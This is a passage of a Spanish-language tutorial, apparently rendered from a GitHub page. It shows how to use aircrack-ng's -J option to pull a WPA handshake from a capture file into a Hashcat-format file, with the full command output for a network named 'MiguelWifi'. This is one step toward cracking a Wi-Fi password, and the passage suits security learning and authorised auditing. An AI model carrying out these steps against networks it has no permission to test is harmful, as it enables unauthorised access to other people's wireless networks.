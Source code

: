 ## Extraccion del Hash en el Handshake 

La herramienta `aircrack-ng` cuenta con un parámetro que nos va a ayudar a hacer todo esto 

```bash
❯ aircrack-ng --help | grep J
      -J <file>  : create Hashcat file (HCCAP)
```

Esto lo que hace es extraernos la información mas importante

```bash
❯ aircrack-ng -J newcap Captura-01.cap
Reading packets, please wait...
Opening Captura-01.cap
Read 39663 packets.

   #  BSSID              ESSID                     Encryption

   1  C6:BF:FD:55:E2:F7  MiguelWifi                WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening Captura-01.cap
Read 39663 packets.

1 potential targets



Building Hashcat file...

[*] ESSID (length: 10): MiguelWifi
[*] Key version: 2
[*] BSSID: C6:BF:FD:55:E2:F7
[*] STA: 1A:58:18:4E:8A:68
[*] anonce:
    72 7A C7 2C 11 C1 30 60 AA 8B 61 FD 40 8C 05 AC 
    EC A2 CF D6 F6 73 4C 56 F4 8A 2E 75 4A F5 CA D3 
[*] snonce:
    BA 4B AB 58 FC D9 87 16 2B DB BB BC A7 2B 48 7D 
    F2 DA 9B F1 5B 3E 81 0F 44 D1 B6 B6 FF E9 7E EF 
[*] Key MIC:
    1A C0 6E C3 4B B6 91 93 E0 29 04 7C BA 1C 4A 35
[*] eapol:
    02 03 00 75 02 01 0A 00 10 00 00 00 00 00 00 00 
    01 BA 4B AB 58 FC D9 87 16 2B DB BB BC A7 2B 48 
    7D F2 DA 9B F1 5B 3E 81 0F 44 D1 B6 B6 FF E9 7E 
    EF 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
    00 00 16 30 14 01 00 00 0F AC 04 01 00 00 0F AC 
    04 01 00 00 0F AC 02 0C 00 

Successfully written to newcap.hccap
```
